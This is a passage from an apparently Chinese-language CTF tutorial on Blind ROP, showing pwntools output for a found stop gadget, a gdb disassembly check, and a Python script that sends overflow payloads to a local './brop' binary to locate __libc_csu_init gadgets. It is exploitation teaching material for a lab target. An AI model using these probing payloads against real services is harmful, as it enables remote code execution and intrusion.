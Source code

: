 ```plain
[+] Starting local process './brop': pid 120035
[*] Process './brop' stopped with exit code -11 (SIGSEGV) (pid 120035)
0x4005c0
[+] Starting local process './brop': pid 120038
[*] Stopped process './brop' (pid 120038)
stop gadgets = 0x4005c0
```

可以查看汇编代码验证：(但是真实情况下看不见，这就是脚本的作用)

```plain
gdb-peda$ x /20i 0x4005c0
   0x4005c0 <_start>:   xor    ebp,ebp
   0x4005c2 <_start+2>: mov    r9,rdx
   0x4005c5 <_start+5>: pop    rsi
   0x4005c6 <_start+6>: mov    rdx,rsp
   0x4005c9 <_start+9>: and    rsp,0xfffffffffffffff0
##这里返回的是_start,返回main的地址也有用，但是返回_init不行，这主要看起始给的地址
```

4、寻找 brop gadgets（例如 **\_\_libc\_csu\_init 中的 gadgets），定位 pop rdi ; ret 的地址**

```plain
# -*- encoding: utf-8 -*-
from pwn import *
from LibcSearcher import *
#得到可能的brop gatget
def get_brop_gadget(length, stop_gadget, addr):            
    try:
        p = process('./brop')
        p.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(
            stop_gadget) + p64(0) * 10             #参考ret2csu原理，这里也可以省去p64(0)*10
        p.sendline(payload)
        content = p.recv()
        p.close()
        #print content
        # stop gadget returns memory
        if not content.startswith('WelCome'):
            return False
        return True
    except Exception:
        p.close()
        return False

#对可能的gatget进行检查
def check_brop_gadget(length, addr):
    try:
        p = process('./brop')
        p.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + 'a' * 8 * 10  #同样可以省去'a'*8*10
        p.sendline(payload)
        content = p.recv()
        p.close()
        return False
    except Exception:
        p.close()
        return True


##buffer_length = GetBufferLength()
buffer_length = 72
##stop_gatget = getStopAddr(length)
stop_gadget = 0x4005c0
addr = 0x400760
```